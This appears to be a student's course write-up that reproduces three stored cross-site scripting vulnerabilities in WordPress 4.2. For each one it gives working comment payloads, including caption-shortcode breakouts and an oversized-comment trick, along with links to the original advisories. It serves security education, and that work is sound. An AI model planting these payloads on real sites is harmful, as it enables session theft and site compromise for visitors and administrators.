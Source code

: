 #Project 7 - Wordpress Pentesting

Time spent: 1 hours spent in total

> Objective: Find, analyze, recreate, and coument vulnerabilities affecting WordPress v4.2

## Pentesting Report

1. (Required) Authenticated Stored Cross-Site Scripting (XSS)

-[x] Summary:
    * Vulnerability types: XSS
    * Tested in version: 4.2
    * Fixed in version: 4.2.3
    * GIF Walkthrough:
        ![Alt Text]https://i.gyazo.com/761f2461ed3ce9dfc6b94d6e170e7035.mp4

    * Steps to recreate: Make a comment with
        <a href="[caption code=">]</a><a title = " onmouseover=alert('testalert')  ">link</a>

    * Affected source code: https://klikki.fi/adv/wordpress3.html

3. (Required) Unauthenticated Stored Cross-Site Scripting (XSS)

-[x] Summary:
    * Vulnerability types: XSS
    * Tested in version: 4.2
    * Fixed in version: 4.4.1.8
    * GIF Walkthrough:
        ![Alt Text]https://gyazo.com/3b8e1e695be57eb746cbdc125da0b79e
    * Steps to recreate: Make a comment with
    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
    style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

    * Affected source code: https://klikki.fi/adv/wordpress2.html

2. (Required) User List Table Cross-Site Scripting (XSS)

-[x] Summary:
    * Vulnerability types: XSS
    * Tested in version: 4.2
    * Fixed in version: 4.4.1.8
    * GIF Walkthrough:
        ![Alt Text]https://gyazo.com/969c2f6fc7dbbb7c118b6a45ab868d8c

    * Steps to recreate: Make a comment with
         <p>TEST!!!<figure style="width: 1px;" class="wp-caption alignnone"><figcaption class="wp-caption-text">
         <a href="</figcaption></figure></a><a href="http://onMouseOver='alert(1)'">Click me</a></p>

    * Affected source code: https://blog.checkpoint.com/2015/09/15/finding-vulnerabilities-in-core-wordpress-a-bug-hunters-trilogy-part-iii-ultimatum/
